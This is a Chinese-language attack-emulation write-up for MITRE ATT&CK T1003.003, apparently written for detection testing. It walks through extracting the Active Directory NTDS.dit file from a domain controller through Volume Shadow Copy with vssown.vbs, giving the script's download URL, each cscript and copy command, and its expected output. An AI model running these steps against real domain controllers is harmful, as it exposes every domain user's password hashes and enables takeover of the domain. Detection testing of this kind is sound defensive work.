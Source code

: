 # T1003.003-Win-使用vssown.vbs获得NTDS.dit文件

## 描述

凭据转储（Credential Dumping，MITRE ATT&CK T1003.003）涉及攻击者通过访问或创建Active Directory（AD）域数据库副本（NTDS.dit）窃取凭据信息。NTDS.dit是AD的核心数据库，存储用户、组、密码哈希（NTLM）等信息，默认位于域控制器（DC）的`%SystemRoot%\NTDS\Ntds.dit`路径。攻击者可利用卷影复制（Volume Shadow Copy，VSS）技术或工具（如vssown.vbs、ntdsutil.exe）提取NTDS.dit，随后使用secretsdump.py或Mimikatz离线解析哈希。此技术需域管理员权限，通常用于窃取域内所有用户凭据，导致域环境沦陷。

## 测试案例

### 测试环境
- 域控制器：Windows Server 2016/2019（dc.abcc.org）
- 工具：vssown.vbs、Mimikatz（可选，离线解析）
- 要求：域管理员权限、域环境（abcc.org）、启用Sysmon和Windows安全日志审计
- 用户：Administrator（测试账户）
- 日志：Sysmon（事件ID1、11）、Windows安全日志（事件ID4688、4904、8222）

### 测试准备
1. 确认域管理员权限：
   ```cmd
   whoami /groups
   ```
   - 确保包含`Domain Admins`组。
2. 启用日志审计：
   - 组策略：计算机配置 > 策略 > Windows设置 > 安全设置 > 本地策略 > 审核策略 > 进程跟踪、对象访问 > 启用成功和失败审计。
   - 安装Sysmon：<https://docs.microsoft.com/sysinternals/downloads/sysmon>
     - 配置：启用事件ID1（进程创建）、11（文件操作）。
3. 下载vssown.vbs：
   - URL：<https://raw.githubusercontent.com/borigue/ptscripts/master/windows/vssown.vbs>
   - 放置于域控制器（C:\Tools\vssown.vbs）。
4. 验证VSS服务状态：
   ```cmd
   sc query vss
   ```
   - 确保服务可运行。
5. 确保NTDS.dit存在：
   ```cmd
   dir %SystemRoot%\NTDS\ntds.dit
   ```

### 测试步骤
1. **启动VSS服务**：
   ```cmd
   cscript C:\Tools\vssown.vbs /start
   ```
   - 输出：`[*] Signal sent to start the VSS service.`
2. **创建卷影副本**：
   ```cmd
   cscript C:\Tools\vssown.vbs /create c
   ```
   - 输出：`[*] Attempting to create a shadow copy.`
3. **列出卷影副本**：
   ```cmd
   cscript C:\Tools\vssown.vbs /list
   ```
   - 输出示例：
     ```
     [*] Device object: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
     ```
4. **复制NTDS.dit**：
   ```cmd
   copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit C:\Temp\ntds.dit
   ```